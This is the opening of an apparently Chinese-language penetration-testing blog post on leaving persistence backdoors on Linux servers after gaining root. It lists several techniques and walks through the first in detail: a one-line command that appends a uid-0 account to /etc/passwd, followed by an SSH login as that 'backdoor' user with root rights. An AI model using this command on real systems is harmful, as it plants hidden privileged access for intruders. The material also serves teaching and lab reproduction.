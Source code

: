 ```yaml
---
title: linux 服务器常见的留后门方式（一）
date: 2022-4-2 23:35:57
tags: [Backdoor,Linux,Kali]
categories: 
 - [渗透测试,后门-Backdoor]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682441841/Typera/2023/04/7e00f34b8462535fcbd72b5a18b714e9.png
---
```


:::primary
整理好了搭环境的文章：[LINUX后门复现环境搭建](https://blog.sycamore.top/2022/03/21/LINUX%E5%90%8E%E9%97%A8%E5%A4%8D%E7%8E%B0%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/)
:::

攻击者在通过各种手段获得服务器的控制权之后，通常会在服务器上布置一些脚本、进程、链接，即所谓的**后门**。其目的是，方便攻击者以后对该服务器进行持久性的攻击。

其中，在linux服务器上留后门的常见技术，**本文中会提及**如下几种：
- 增加用户账号
- 破解用户密码
- 放置SUID Shell
- PAM后门
- SSH软链接后门
...

## 增加用户账号
**前提**：getshell，已获得服务器的root权限
### uid=0用户可远程登陆

可以通过下面这一行指令，增加一个**超级用户账号**：
`echo "用户名:x:0:0::/:/bin/sh" >> /etc/passwd`
然后通过：`passed 用户名`命令，修改所设超级用户的密码

#### 实现：
输入命令：
![image-20230426005018227](https://res.cloudinary.com/sycamore/image/upload/v1682441422/Typera/2023/04/a0f37b7036c0a7b07b57165d34510dc9.png)
（增加超级用户backdoor）
然后通过ssh登录backdoor账户：
![image-20230426005025313](https://res.cloudinary.com/sycamore/image/upload/v1682441429/Typera/2023/04/a74b221974a59bbf958dea2d1d49823f.png)
可以看到已经是root权限了：
![image-20230426005032317](https://res.cloudinary.com/sycamore/image/upload/v1682441436/Typera/2023/04/2523b36be81cd6a668b416a6bbf6ca66.png)

原理：给服务器增加一个**ID为0**的账号（因为**root**的ID为0）
我们可以通过`vim /etc/passwd`命令打开passwd，所有用户名称与ID的对应关系都保存在这里。
在文件开头，能看到root:
![image-20230426005041049](https://res.cloudinary.com/sycamore/image/upload/v1682441444/Typera/2023/04/8c6aa69ccdebdd7b75bfaddbc6d434d4.png)在文件的最后，我们能够找到刚刚添加的账号（backdoor）
![image-20230426005048939](https://res.cloudinary.com/sycamore/image/upload/v1682441452/Typera/2023/04/198980bd4423bb1cd26fcb757cbea990.png)已禁止uid=0用户远程登陆
